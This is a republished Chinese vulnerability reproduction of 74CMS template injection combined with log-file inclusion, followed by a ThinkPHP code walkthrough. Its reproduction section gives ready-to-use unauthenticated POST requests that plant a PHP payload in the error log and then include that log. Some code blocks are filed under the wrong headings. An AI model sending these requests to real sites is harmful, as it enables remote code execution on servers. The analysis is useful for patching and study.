








## 核对与使用边界

- 明确更正：类/函数归属需区分 Controller、ParseTemplateBehavior、View、Template；同文前后错归和“日志记录”下错贴 fetch 代码不能当实际调用链。缓存读取仍受 checkContentCache/checkCache 等返回值影响，content 非空不等于总能加载缓存。
- GET 是否可用依实际传输、解码和日志写入，不能由 URL 通常编码推出 GET 一律失败；PHP7 不支持只可限定所测版本/环境。保留后续上传图片/doc 包含补丁边界和原来源。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：publichomeinheritedmethod;Thinkengine;errorlogstoresrawPHP;POSTsample;PHP5lab

- **结论使用边界（1）**：多个函数/类块在同文重复，首轮把ParseTemplateBehavior.run误归Controller、Template.fetch误归View，后半才正确，需整理调用链。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：日志记录标题下贴assign_resume_tpl/fetch而非write，章节/代码错置。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：说content非空即加载缓存忽略checkContentCache/checkCache结果，不能等同首次/二次请求条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（4）**：声称GET一律因URL编码不能利用与753给GET链冲突，应核实际传输/解码/日志行为而非武断二选一。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（5）**：不支持PHP7应限该版本兼容性；payload/r/n需核，未提753补丁后图片/doc仍可能包含。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（6）**：官方公告与两xz来源可回源，保留独立分析而非只按相似代码去重。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 骑士 CMS 模版注入 + 文件包含 getshell 复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4-36O4OaWxu2jX2pzb5_Wg)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****microworld****@Timeline Sec  
**

**本文字数：3919**

**阅读时长：8～10min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

骑士 cms 人才系统，是一项基于 PHP+MYSQL 为核心开发的一套**免费 +** 开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。  

**0x02 漏洞概述**  

  

骑士 CMS 官方发布安全更新，修复了一处远程代码执行漏洞。由于骑士 CMS 某些函数存在过滤不严格，攻击者通过构造恶意请求，配合文件包含漏洞可在无需登录的情况下执行任意代码，控制服务器。  

**0x03 影响版本**  

  

骑士 CMS < 6.0.48

**0x04 环境搭建**  

  

骑士 cms 不支持 php7.0，所以建议使用 php5  

官网下载 6.0.20 版本  



将源码放在 web 根目录下，访问 / index.php 进行安装





**0x05 漏洞复现**  

  

1. 发送如下请求：

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

  

2. 查看日志会发现已经记录了错误  
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home  


  
3. 包含日志

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log
```

日志名称就是当天的年月日，直接包含即可  


**0x06 漏洞分析**  

  

**路由：**

74cms 利用了 thinkphp3.2.3 进行构建，查看 ThinkPHP\Conf\convention.php 中的路由配置：

```
/* 系统变量名称设置 */
    'VAR_MODULE'            =>  'm',     // 默认模块获取变量
    'VAR_ADDON'             =>  'addon',     // 默认的插件控制器命名空间变量
    'VAR_CONTROLLER'        =>  'c',    // 默认控制器获取变量
    'VAR_ACTION'            =>  'a',    // 默认操作获取变量
    'VAR_AJAX_SUBMIT'       =>  'ajax',  // 默认的AJAX提交变量
    'VAR_JSONP_HANDLER'     =>  'callback',
    'VAR_PATHINFO'          =>  's',    // 兼容模式PATHINFO获取变量，例如 ?s=/module/action/id/1 后面的参数取决于URL_PATHINFO_DEPR
    'VAR_TEMPLATE'          =>  't',    // 默认模板切换变
    'VAR_AUTO_STRING'       =>  false,  // 输入变量是否自动强制转换为字符串 如果开启则数组变量需要手动传入变量修饰符获取变量

    'HTTP_CACHE_CONTROL'    =>  'private',  // 网页缓存控制
    'CHECK_APP_DIR'         =>  true,       // 是否检查应用目录是否创建
    'FILE_UPLOAD_TYPE'      =>  'Local',    // 文件上传方式
    'DATA_CRYPT_TYPE'       =>  'Think',    // 数据加密方式
```

调用控制器中的某个方法便可以使用如下请求形式：

```
?m=&c=&a=&variable1=&variable2=...
```

  
在 ThinkPHP\Common\functions.php 的 url 方法已经给出了说明：  

```
/**
 * URL组装 支持不同URL模式
 * @param string $url URL表达式，格式：'[模块/控制器/操作#锚点@域名]?参数1=值1&参数2=值2...'
 * @param string|array $vars 传入的参数，支持数组和字符串
 * @param string|boolean $suffix 伪静态后缀，默认为true表示获取配置值
 * @param boolean $domain 是否显示域名
 * @return string
 */
function U($url='',$vars='',$suffix=true,$domain=false,$type=false,$module_type=false) {
    // 解析URL
   ...
    return $url;
}
```

```
/**
     * 日志直接写入
     * @static
     * @access public
     * @param string $message 日志信息
     * @param string $level  日志级别
     * @param integer $type 日志记录方式
     * @param string $destination  写入目标
     * @return void
     */
    static function write($message,$level=self::ERR,$type='',$destination='') {
        if(!self::$storage){
            $type   =   $type ? : C('LOG_TYPE');
            $class  =   'Think\\Log\\Driver\\'. ucwords($type);
            $config['log_path'] = C('LOG_PATH');
            self::$storage = new $class($config);            
        }
        if(empty($destination)){
            $destination = C('LOG_PATH').date('y_m_d').'.log';        
        }
        self::$storage->write("{$level}: {$message}", $destination);
    }
```

**日志记录：**

thinkphp 定义了日志记录方式：

在 ThinkPHP/Library/Think/Log.class.php 中的 write 方法：

```
/**
     * 渲染简历模板
     */
    public function assign_resume_tpl($variable,$tpl){
        foreach ($variable as $key => $value) {
            $this->assign($key,$value);
        }
        return $this->fetch($tpl);
    }
```

```
/**
     *  获取输出页面内容
     * 调用内置的模板引擎fetch方法，
     * @access protected
     * @param string $templateFile 指定要调用的模板文件
     * 默认为空 由系统自动定位模板文件
     * @param string $content 模板输出内容
     * @param string $prefix 模板缓存前缀* 
     * @return string
     */
    protected function fetch($templateFile='',$content='',$prefix='') {
        return $this->view->fetch($templateFile,$content,$prefix);
    }
```

ERR 代表一般性错误，会直接写入在 y_m_d.log 当中

为了验证是否写入，我们随机发送一个请求，让他报错：

确实存入了  



模板解析：

官方通告：  
http://www.74cms.com/news/show-2497.html  

提及到是  
/Application/Common/Controller/BaseController.class.php  
中的 assign_resume_tpl 方法出了问题

```
/**
     * 解析和获取模板内容 用于输出
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $content 模板输出内容
     * @param string $prefix 模板缓存前缀
     * @return string
     */
    public function fetch($templateFile='',$content='',$prefix='') {
        if(empty($content)) {
            $templateFile   =   $this->parseTemplate($templateFile);
            // 模板文件不存在直接返回
            if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
        }else{
            defined('THEME_PATH') or    define('THEME_PATH', $this->getThemePath());
        }
        // 页面缓存
        ob_start();
        ob_implicit_flush(0);
        if('php' == strtolower(C('TMPL_ENGINE_TYPE'))) { // 使用PHP原生模板
            $_content   =   $content;
            // 模板阵列变量分解成为独立变量
            extract($this->tVar, EXTR_OVERWRITE);
            // 直接载入PHP模板
            empty($_content)?include $templateFile:eval('?>'.$_content);
        }else{
            // 视图解析标签
            $params = array('var'=>$this->tVar,'file'=>$templateFile,'content'=>$content,'prefix'=>$prefix);
            Hook::listen('view_parse',$params);
        }
        // 获取并清空缓存
        $content = ob_get_clean();
        // 内容过滤标签
        Hook::listen('view_filter',$content);
        // 输出模板文件
        return $content;
    }
```

```
/**
     * 监听标签的插件
     * @param string $tag 标签名称
     * @param mixed $params 传入参数
     * @return void
     */
    static public function listen($tag, &$params=NULL) {
        if(isset(self::$tags[$tag])) {
            if(APP_DEBUG) {
                G($tag.'Start');
                trace('[ '.$tag.' ] --START--','','INFO');
            }
            foreach (self::$tags[$tag] as $name) {
                APP_DEBUG && G($name.'_start');
                $result =   self::exec($name, $tag,$params);
                if(APP_DEBUG){
                    G($name.'_end');
                    trace('Run '.$name.' [ RunTime:'.G($name.'_start',$name.'_end',6).'s ]','','INFO');
                }
                if(false === $result) {
                    // 如果返回false 则中断插件执行
                    return ;
                }
            }
            if(APP_DEBUG) { // 记录行为的执行日志
                trace('[ '.$tag.' ] --END-- [ RunTime:'.G($tag.'Start',$tag.'End',6).'s ]','','INFO');
            }
        }
        return;
    }

    /**
     * 执行某个插件
     * @param string $name 插件名称
     * @param string $tag 方法名（标签名）     
     * @param Mixed $params 传入的参数
     * @return void
     */
    static public function exec($name, $tag,&$params=NULL) {
        if('Behavior' == substr($name,-8) ){
            // 行为扩展必须用run入口方法
            $tag    =   'run';
        }
        $addon   = new $name();
        return $addon->$tag($params);
    }
}
```

variable 值任意，最终是要对 tpl 的内容进行渲染

调用了 fetch 方法，我们跟入  
ThinkPHP/Library/Think/Controller.class.php：

```
// 行为扩展的执行入口必须是run
    public function run(&$_data){
        $engine             =   strtolower(C('TMPL_ENGINE_TYPE'));
        $_content           =   empty($_data['content'])?$_data['file']:$_data['content'];
        $_data['prefix']    =   !empty($_data['prefix'])?$_data['prefix']:C('TMPL_CACHE_PREFIX');
        if('think'==$engine){ // 采用Think模板引擎
            if((!empty($_data['content']) && $this->checkContentCache($_data['content'],$_data['prefix'])) 
                ||  $this->checkCache($_data['file'],$_data['prefix'])) { // 缓存有效
                //载入模版缓存文件
                Storage::load(C('CACHE_PATH').$_data['prefix'].md5($_content).C('TMPL_CACHFILE_SUFFIX'),$_data['var']);
            }else{
                $tpl = Think::instance('Think\\Template');
                // 编译并加载模板文件
                $tpl->fetch($_content,$_data['var'],$_data['prefix']);
            }
        }else{
            // 调用第三方模板引擎解析和输出
            if(strpos($engine,'\\')){
                $class  =   $engine;
            }else{
                $class   =  'Think\\Template\\Driver\\'.ucwords($engine);                
            }            
            if(class_exists($class)) {
                $tpl   =  new $class;
                $tpl->fetch($_content,$_data['var']);
            }else {  // 类没有定义
                E(L('_NOT_SUPPORT_').': ' . $class);
            }
        }
    }
```

```
/**
     * 加载模板
     * @access public
     * @param string $templateFile 模板文件
     * @param array  $templateVar 模板变量
     * @param string $prefix 模板标识前缀
     * @return void
     */
    public function fetch($templateFile,$templateVar,$prefix='') {
        $this->tVar         =   $templateVar;
        $templateCacheFile  =   $this->loadTemplate($templateFile,$prefix);
        Storage::load($templateCacheFile,$this->tVar,null,'tpl');
    }
```

这里又调用了内置的模板解析方法 fetch，位于  
ThinkPHP/Library/Think/View.class.php：

```
/**
     * 加载主模板并缓存
     * @access public
     * @param string $templateFile 模板文件
     * @param string $prefix 模板标识前缀
     * @return string
     * @throws ThinkExecption
     */
    public function loadTemplate ($templateFile,$prefix='') {
        if(is_file($templateFile)) {
            $this->templateFile    =  $templateFile;
            // 读取模板文件内容
            $tmplContent =  file_get_contents($templateFile);
        }else{
            $tmplContent =  $templateFile;
        }
         // 根据模版文件名定位缓存文件
...

        // 判断是否启用布局
...
        // 编译模板内容
        $tmplContent =  $this->compiler($tmplContent);
        Storage::put($tmplCacheFile,trim($tmplContent),'tpl');
        return $tmplCacheFile;
    }
```

```
/**
     * 加载文件
     * @access public
     * @param string $filename  文件名
     * @param array $vars  传入变量
     * @return void        
     */
    public function load($_filename,$vars=null){
        if(!is_null($vars)){
            extract($vars, EXTR_OVERWRITE);
        }
        include $_filename;
    }
```

```
<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

content 为空进入第一个判断，判断模板文件是否为空  
然后经过 parseTemplate 处理后，走如下个判断  
判定 TMPL_ENGINE_TYPE 是否为 php  
由 ThinkPHP/Conf/convention.php 可知  
默认值为 think  

  

于是走入 else，调用了 Hook::listen，继续跟入  
位于 ThinkPHP/Library/Think/Hook.class.php

```
/**
     * 监听标签的插件
     * @param string $tag 标签名称
     * @param mixed $params 传入参数
     * @return void
     */
    static public function listen($tag, &$params=NULL) {
        if(isset(self::$tags[$tag])) {
            if(APP_DEBUG) {
                G($tag.'Start');
                trace('[ '.$tag.' ] --START--','','INFO');
            }
            foreach (self::$tags[$tag] as $name) {
                APP_DEBUG && G($name.'_start');
                $result =   self::exec($name, $tag,$params);
                if(APP_DEBUG){
                    G($name.'_end');
                    trace('Run '.$name.' [ RunTime:'.G($name.'_start',$name.'_end',6).'s ]','','INFO');
                }
                if(false === $result) {
                    // 如果返回false 则中断插件执行
                    return ;
                }
            }
            if(APP_DEBUG) { // 记录行为的执行日志
                trace('[ '.$tag.' ] --END-- [ RunTime:'.G($tag.'Start',$tag.'End',6).'s ]','','INFO');
            }
        }
        return;
    }
    /**
     * 执行某个插件
     * @param string $name 插件名称
     * @param string $tag 方法名（标签名）     
     * @param Mixed $params 传入的参数
     * @return void
     */
    static public function exec($name, $tag,&$params=NULL) {
        if('Behavior' == substr($name,-8) ){
            // 行为扩展必须用run入口方法
            $tag    =   'run';
        }
        $addon   = new $name();
        return $addon->$tag($params);
    }
}
```

view_parse 的行为定义如下：  

  

exec 会进行判断，当其值中含有 Behavior，其入口方法必为 run，我们跟入到 ParseTemplateBehavior 的 run 方法，其位置在  
ThinkPHP/Library/Behavior/ParseTemplateBehavior.class.php

```
// 行为扩展的执行入口必须是run
    public function run(&$_data){
        $engine             =   strtolower(C('TMPL_ENGINE_TYPE'));
        $_content           =   empty($_data['content'])?$_data['file']:$_data['content'];
        $_data['prefix']    =   !empty($_data['prefix'])?$_data['prefix']:C('TMPL_CACHE_PREFIX');
        if('think'==$engine){ // 采用Think模板引擎
            if((!empty($_data['content']) && $this->checkContentCache($_data['content'],$_data['prefix'])) 
                ||  $this->checkCache($_data['file'],$_data['prefix'])) { // 缓存有效
                //载入模版缓存文件
                Storage::load(C('CACHE_PATH').$_data['prefix'].md5($_content).C('TMPL_CACHFILE_SUFFIX'),$_data['var']);
            }else{
                $tpl = Think::instance('Think\\Template');
                // 编译并加载模板文件
                $tpl->fetch($_content,$_data['var'],$_data['prefix']);
            }
        }else{
            // 调用第三方模板引擎解析和输出
            if(strpos($engine,'\\')){
                $class  =   $engine;
            }else{
                $class   =  'Think\\Template\\Driver\\'.ucwords($engine);                
            }            
            if(class_exists($class)) {
                $tpl   =  new $class;
                $tpl->fetch($_content,$_data['var']);
            }else {  // 类没有定义
                E(L('_NOT_SUPPORT_').': ' . $class);
            }
        }
    }
```

因为 engine 的默认值为 think，所以走入第一个判断，content 不为空则载入缓存，若为空，即第一次加载，走入 else，先实例化 template 类，调用了 fetch 方法，其位于  
ThinkPHP/Library/Think/Template.class.php

```
/**
     * 加载模板
     * @access public
     * @param string $templateFile 模板文件
     * @param array  $templateVar 模板变量
     * @param string $prefix 模板标识前缀
     * @return void
     */
    public function fetch($templateFile,$templateVar,$prefix='') {
        $this->tVar         =   $templateVar;
        $templateCacheFile  =   $this->loadTemplate($templateFile,$prefix);
        Storage::load($templateCacheFile,$this->tVar,null,'tpl');
    }
```

调用 loadTemplate()，将其存入 templateCacheFile 中  
我们跟入 loadTemplate() 方法：

```
/**
     * 加载主模板并缓存
     * @access public
     * @param string $templateFile 模板文件
     * @param string $prefix 模板标识前缀
     * @return string
     * @throws ThinkExecption
     */
    public function loadTemplate ($templateFile,$prefix='') {
        if(is_file($templateFile)) {
            $this->templateFile    =  $templateFile;
            // 读取模板文件内容
            $tmplContent =  file_get_contents($templateFile);
        }else{
            $tmplContent =  $templateFile;
        }
         // 根据模版文件名定位缓存文件
...
        // 判断是否启用布局
...
        // 编译模板内容
        $tmplContent =  $this->compiler($tmplContent);
        Storage::put($tmplCacheFile,trim($tmplContent),'tpl');
        return $tmplCacheFile;
    }
```

精简了下代码，先获取文件内容，然后存入 $tmplContent 中，关注最后三行，调用 compiler() 方法对模板进行编译，做一些简单处理：  

  

存入缓存文件中，然后返回，于是我们再回归到 fetch() 方法，调用了 Storage::load，位于 ThinkPHP/Library/Think/Storage/Driver/File.class.php：

```
/**
     * 加载文件
     * @access public
     * @param string $filename  文件名
     * @param array $vars  传入变量
     * @return void        
     */
    public function load($_filename,$vars=null){
        if(!is_null($vars)){
            extract($vars, EXTR_OVERWRITE);
        }
        include $_filename;
    }
```

这里直接就包含文件，最终造成了模板注入

**利用：**

而利用日志记录错误这个思路我们就可以直接在请求中发送如下 payload：  

```
<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

为什么不能使用 get 来请求，因为 url 在提交给后台处理会被进行 url 编码，从而造成包含不成功，因此要采取 post 方式发送 payload  



**0x07 修复方式**  

  

下载最新补丁包  

http://www.74cms.com/download/index.html  

```
参考链接：
```

https://xz.aliyun.com/t/8520  
https://www.kancloud.cn/manual/thinkphp/1827  
https://xz.aliyun.com/t/8596  


  


**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
